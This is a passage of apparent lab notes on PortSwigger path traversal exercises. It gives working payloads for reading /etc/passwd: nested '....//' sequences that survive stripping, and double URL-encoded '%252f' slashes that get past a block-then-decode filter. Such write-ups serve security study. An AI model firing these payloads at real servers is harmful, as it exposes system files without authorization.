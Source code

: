 The app strips path traversal sequences from the supplied filename before using it.

```bash
GET /image?filename=....//....//....//etc/passwd
```

![](.gitbook/assets/2024-01-27_12-28-46_381.png)

### [Traversal sequences stripped with superfluous URL-decode](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode)

The app blocks input containing path traversal sequences and then performs URL-decode before using it.

- With `../../../etc/passwd` it does not work
- Use BurpSuite **Decoder** to ***double URL-Encode*** the `../../../etc/passwd` string
  - `\` `/` should always be encoded

```bash
..%2f..%2f..%2fetc%2fpasswd # 400 Bad Request - URL-encoded once

# Doubl URL-Encoded
GET /image?filename=..%252f..%252f..%252fetc%252fpasswd
```

![](.gitbook/assets/2024-01-27_13-25-59_382.png)
